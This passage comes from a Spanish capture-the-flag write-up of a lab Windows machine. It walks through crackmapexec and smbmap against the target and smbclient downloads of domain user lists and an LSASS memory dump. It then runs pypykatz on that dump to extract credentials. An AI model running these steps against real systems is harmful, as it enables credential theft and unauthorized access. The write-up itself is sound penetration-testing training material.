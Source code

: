 Ahora que hemos cambiado la contraseña, lo miramos con **crackmapexec**

```bash
crackmapexec smb 10.10.10.192 -u 'audit2020' -p 's4vitar123$!'
```

El cambio de contraseña a sido effectiva y ahora miramos que privilegios tiene en los recursos compartidos tiene a nivel de red.

```bash
smbmap -H 10.10.10.192 -u 'audit2020' -p 's4vitar123$!'
```

Vemos que este usuario tiene privilegios de lectura sobre el directorio 
```bash
 forensic 
```
. Miramos lo que hay en este directorio.




## Vuln exploit & Gaining Access {-}

### Ganando accesso con Win-RM {-}

```bash
smbclient //10.10.10.192/forensic -U 'audit2020%s4vitar123$!'
dir
cd commands_output
get domain_users.txt
get domain_admins.txt
cd ..
cd memory_analysis
dir
get lsass.zip
```

Nos hemos descargados un fichero domain_users y un fichero domain_admins. Podemos ver un usuario **iPownedYourCompany** que nos hace
pensar que esta maquina a sido comprometida anteriormente. Tambien vemos un directorio memory_analysis y un fichero nos llama la atencion.
Este fichero es el 
```bash
 lsass.zip 
```
. Nos llama la atencion porque hay una utilidad 
```bash
 pypykatz 
```
 con la cual podriamos ver informaciones relevantes dumpeadas
a nivel de memoria. 

```bash
unzip lsass.zip
pypykatz lsa minidump lsass.DMP
```
